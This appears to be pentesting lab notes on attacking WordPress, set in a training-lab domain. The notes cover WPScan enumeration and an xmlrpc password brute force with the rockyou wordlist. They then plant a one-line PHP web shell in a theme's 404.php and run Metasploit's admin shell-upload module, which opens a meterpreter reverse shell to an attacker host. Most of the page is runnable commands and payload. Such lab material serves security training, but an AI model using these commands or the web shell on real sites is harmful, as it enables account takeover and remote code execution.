 ## **WPScan**

### Enumerating

The `--enumerate` flag is used to enumerate various components of the WordPress application, such as plugins, themes, and users. By default, WPScan enumerates vulnerable plugins, themes, users, media, and backups. However, specific arguments can be supplied to restrict enumeration to
 specific components. For example, all plugins can be enumerated using the arguments `--enumerate ap`

```bash
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>
```

API token from WPVulnDB

# **Attacking WordPress**

## **Login Bruteforce**

The tool uses two kinds of login brute force attacks, [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) and wp-login. The `wp-login` method will attempt to brute force the standard WordPress login page, while the `xmlrpc` method uses WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it’s faster.

```bash
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

## **Code Execution**

Administrative Access > Appearance > Theme Editor > Select a non-used theme >Edit uncommon page (404.php) > add payload or Reverse shell > Click on `Update File`

### Simple Payload

```php
system($_GET[0]);
```

### Path

```bash
http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```

### Using Metasploit

```
msf6 > use exploit/unix/webapp/wp_admin_shell_upload

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```
